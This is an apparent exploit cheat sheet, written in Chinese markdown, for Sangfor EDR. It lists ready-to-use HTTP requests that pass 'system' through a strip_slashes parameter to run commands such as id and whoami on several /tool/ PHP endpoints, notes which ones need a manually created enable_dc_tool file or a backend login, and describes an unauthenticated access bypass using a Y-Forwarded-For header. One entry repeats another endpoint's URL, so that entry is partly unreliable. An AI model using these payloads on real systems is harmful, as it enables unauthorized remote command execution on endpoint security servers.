


# **Sangfor-EDR**
ldb_ext_root = /ac/dc/ldb/
## **RCE** 
### **/tool/log/c.php**
要求:无  
#### exp
http://127.0.0.1/tool/log/c.php?strip_slashes=system&host=id

### **/tool/php_cli.php**
要求:默认不允许使用,需要在服务器上手动在指定目录下touch一个enable_dc_tool文件开启该功能
#### exp
http://127.0.0.1/tool/php_cli.php?strip_slashes=system&code=whoami  

### **/tool/ldb_cli.php**
要求:默认不允许使用,需要在服务器上手动在指定目录下touch一个enable_dc_tool文件开启该功能
#### **exp**
http://127.0.0.1/tool/log/c.php?strip_slashes=system&json=id
### **/tool/mdd_sql.php**
要求:默认不允许使用,需要在服务器上手动在指定目录下touch一个enable_dc_tool文件开启该功能
#### exp
http://127.0.0.1/tool/mdd_sql.php?strip_slashes=system&root=id  

http://127.0.0.1/tool/mdd_sql.php?$sql=phpinfo();  
要求:后台登陆
## 权限绕过
添加Y-Forwarded-For头在默认环境下可未授权访问一些接口  
[参考](https://mp.weixin.qq.com/s/4Z4QF-Wdq2PhqCkGKB8Q6Q)
